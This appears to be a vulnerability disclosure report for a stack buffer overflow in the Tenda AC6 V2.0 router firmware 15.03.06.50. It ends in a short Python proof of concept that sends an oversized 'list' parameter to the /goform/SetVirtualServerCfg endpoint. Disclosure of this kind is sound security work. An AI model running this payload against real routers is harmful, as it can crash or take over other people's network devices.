




# Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/SetVirtualServerCfg` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/SetVirtualServerCfg` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `list`.





## poc



## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'list': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'192.168.1.1,8080,80,' + 0xf0 * b'A'
send_payload("http://10.10.10.1/goform/SetVirtualServerCfg", payload)
```